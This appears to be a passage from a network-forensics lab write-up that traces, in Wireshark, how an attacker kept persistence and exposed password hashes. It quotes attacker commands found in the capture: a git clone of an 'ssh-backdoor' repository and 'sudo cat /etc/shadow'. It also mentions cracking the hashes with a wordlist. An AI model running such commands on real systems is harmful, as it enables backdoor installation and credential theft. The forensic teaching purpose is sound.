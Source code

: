 - How did the attacker establish persistence?

We need to track packets for changes and one of the significant changes occurs with two DNS, two ARP followed by two DNS packets again after which the ports of the connection change. So I went packet by packet decoding TCP payloads and it appears the attacker was using `ssh-backdoor` as persistence. Packet No. 121 has the following payload:

```
0000   0d 3c 67 69 74 20 63 6c 6f 6e 65 20 68 74 74 70   .<git clone http
0010   73 3a 2f 2f 67 69 74 68 75 62 2e 63 6f 6d 2f 4e   s://github.com/N
0020   69 6e 6a 61 4a 63 30 31 2f 73 73 68 2d 62 61 63   injaJc01/ssh-bac
0030   6b 64 6f 6f 72 0d 0a                              kdoor..
```

The next question is:

- Using the fasttrack wordlist, how many of the system passwords were crackable?

So we need to find where the attacker revealed the shadow file and test those hashes. 

For that purpose we can simply filter for a mention of `shadow` in TCP payloads:

```
tcp contains "shadow"
```

This shows two packets with near identical tcp payload `sudo cat /etc/shadow`. The latest of these is No. 112 so a packet directly after this one with a TCP payload should show the entire `shadow` file's contents:

![/etc/shadow packet](006_wireshark.png "Attacker revealed the contents of shadow file.")
